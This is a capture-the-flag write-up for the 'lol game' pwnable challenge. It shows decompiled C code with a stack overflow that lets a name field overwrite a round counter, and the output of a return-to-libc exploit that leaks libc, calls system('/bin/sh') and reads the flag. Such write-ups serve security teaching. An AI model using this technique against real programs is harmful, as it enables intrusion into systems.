 # lol game
**Category:** Pwnable
**Points:** 831
**Solves:** 14
**Description:**
> Download in : [Link](https://drive.google.com/open?id=15XYB41jAtwH58LxNDhRQSXWHaqzJ9cdZ)
> Service: nc armexploit.acebear.site 3004

## Writeup
```
$ file LOLgame 
LOLgame: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a9d22e211c215fa4e68630a6cf0c9eeb610eba24, stripped
```

### The Bug
Binary has some functions: Play, showScore, ChangeName and exit.

Function ChangeName:
```c
int __cdecl main()
{
  char name; // [esp+4h] [ebp-E4h]
  char round; // [esp+14h] [ebp-D4h]
  ...
  ChangeName(&name);
  ...
}
```
```c
int __cdecl ChangeName(void *buf)
{
  ssize_t size; // eax
  int result; // eax
  ssize_t _size; // [esp+Ch] [ebp-Ch]

  size = read(0, buf, 0x11u);
  _size = size;
  result = *(buf + size - 1);
  if ( result == 10 )
  {
    result = buf + _size - 1;
    *result = 0;
  }
  return result;
}
```

We can see stack overflow in ChangeName function.
* name in ebp-0xE4
* round in ebp-0xD4
* but read(0, name, 0x11)
so we can overwrite **round** variable.

In Play function:
* We can bet any points (both positive and negative number)
* We always lose, then *(&game->round + game->round) = -bet;

We can control game->round by ChangeName function, we can bet any points. So we can overwrite return address on stack.

### Exploit
[lolgame.py](/pwn/lolgame/lolgame.py)
```
$ python lolgame.py 2
[+] Opening connection to lolgame.acebear.site on port 3004: Done
[*] write at 57 value 0x80483c0
[*] write at 58 value 0x8048a2a
[*] write at 59 value 0x8049108
[*] printf: 0xf7dab880
[*] baselibc: 0xf7d62000
[*] system: 0xf7d9c900
[*] str_bin_sh: 0xf7ebf00f
[*] write at 55 value 0xf7d9c900
[*] write at 56 value 0x8048a2a
[*] write at 57 value 0xf7ebf00f
?
[*] Switching to interactive mode
Bye!$ id
uid=1000(lolgame) gid=1000(lolgame) groups=1000(lolgame)
$ cat /ho*/*/flag
AceBear{tH4_r00t_1s_pr0gr4m_l3u7_u_are_hum4n}$ 
```

